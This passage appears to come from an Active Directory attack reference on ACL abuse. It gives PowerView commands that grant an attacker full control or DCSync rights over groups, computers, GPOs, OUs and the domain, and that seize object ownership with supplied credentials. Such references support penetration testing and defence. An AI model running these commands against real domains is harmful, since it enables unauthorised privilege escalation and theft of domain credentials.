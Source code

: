 ```
PS> Add-DomainObjectAcl -PrincipalIdentity "<targetGroup>" -Rights WriteMembers
```

After that, the rest of the procedure can be done as for AddMember.

### Computer
An attacker can grant himself all access permissions:

```
PS> Add-DomainObjectAcl -PrincipalIdentity <targetComputerAccount> -Rights All
```

The further procedure is then the same as for AddAllowedToAct or ReadLAPSPassword.

### GPO
An attacker can give himself full control over a GPO:

```
PS> Add-DomainObjectAcl -PrincipalIdentity <targetGpo> -Rights All
```

### OU
Again, an attacker can gain full control of the OU:

```
PS> Add-DomainObjectAcl -PrincipalIdentity (<ouGuid>) -Rights All
```

The further course results depending on which object is contained in the OU - see GenericAll.


### Domain
An attacker can grant himself the right for DCSync:

```
PS> Add-DomainObjectAcl -PrincipalIdentity <domain> -Rights DCSync
```

After that, the further steps are the same as for GetChanges & GetChangesAll.

## Owns
As the owner of an object, you can also add new entries to the object's DACL (see WriteDacl).

## WriteOwner
WriteOwner allows an attacker to overwrite the owner of an object.
This can be done with the help of Powerview:

```
PS> $SecPassword = ConvertTo-SecureString '<attackerPassword>' -AsPlainText -Force
PS> $Cred = New-Object System.Management.Automation.PSCredential('<domain>\\<attackerUser>', $SecPassword)
PS> Set-DomainObjectOwner -Credential $Cred -PrincipalIdentity "<targetObject>" -OwnerIdentity <attackerUser>
```
